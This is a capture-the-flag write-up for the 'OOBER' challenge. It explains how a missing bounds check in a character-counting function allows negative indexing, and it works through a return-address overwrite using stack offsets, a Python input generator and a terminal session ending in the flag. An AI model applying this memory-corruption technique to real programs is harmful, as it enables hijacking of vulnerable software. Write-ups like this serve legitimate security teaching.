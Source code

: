 ## OOBER [130]
## Solution:
`generate_counts()` reads the file specified in `argv[0]` byte-by-byte. It appears to filter out all non-alphanumeric characters, but it is actually not quite as constrained. `generate_counts()` can be decompiled to the following C code:
```C
void generate_counts(int fd, char* mainbuf) {

  char c;
  
  while(read(fd, &c, 1)) {

    if (c == ' ') continue;
    if (c == '\n') continue;
    
    // convert lowercase to uppercase for [a-z]
    if (c <= 'z') {
      if (c >= 'a') {
        c -= 0x20;
      }
    }
    
    mainbuf[c-0x41]++;
  }
}
```

Because `generate_counts()` does not filter out all values, we can write to indices outside of the expected range for `counts[]`. In this case, we will use a *negative* index into `counts[]` to overwrite the return address into `main()` stored on the stack of `analyze_input()`. `counts[]` is located at `0xffffceb6` and the return address on the stack of `analyze_input()` is at `0xffffce9c`. This means that in order to overwrite the return address, we will need to index into `counts[]` at offsets `0xffffce9c` - `0xffffceb6` = `-0x1a` (-26). 

ASCII uppercase letters fall in the range `[0x41:0x5a]`. However, `generate_counts()` fails to discard bytes below `0x41` (ASCII `A`). It will still subtract `0x41` from them to determine the offset into `counts[]`. In this way, we can arbitrarily increment stack variables *below* `counts[]` on the stack by forcing a negative offset. We want to influence bytes at offsets `-0x1a`, `-0x19`, `-0x18`, and `-0x17`. Thus, we will use the following bytes:
```
0x41 - 0x1a = 0x27 --> ASCII "'"
0x41 - 0x19 = 0x28 --> ASCII "("
0x41 - 0x18 = 0x29 --> ASCII ")"
0x41 - 0x17 = 0x2a --> ASCII "*"
```

The normal value of the return address is `0x080486ed`, or the bytes `0xed`, `0x86`, `0x04`, and `0x08` when accounting for little-endianness. We need the return address to change to the address of `print_flag()` at `0x0804859b`, or the bytes `0x9b`, `0x85`, `0x04`, and `0x08` when accounting for little-endianness. Since the first two bytes are the same for the address, we only need to change the bytes at `counts[-26]` and `counts[-25]`:
```
0xed + 0xae (174) = 0x9b
0x86 + 0xff (255) = 0x85
```

Now we can generate an input file to correctly influence the return address:
```
ameise@shell:~$ cd /home/problems/104e1f5b6f2766fd756cf5cdba4ff65b/oober_5
ameise@shell:/home/problems/104e1f5b6f2766fd756cf5cdba4ff65b/oober_5$ ls
flag  oober
ameise@shell:/home/problems/104e1f5b6f2766fd756cf5cdba4ff65b/oober_5$ python -c 'print "\x27"*174 + "\x28"*255' > /tmp/ameise/input
ameise@shell:/home/problems/104e1f5b6f2766fd756cf5cdba4ff65b/oober_5$ ./oober /tmp/ameise/input
Welcome to frequency analyzer
Most likely caesar shift is by 0
Most probable plaintext: ''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''(((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((((


Your flag is: i_teach_you_the_oobermensch_E19cBa5BfB68b8A3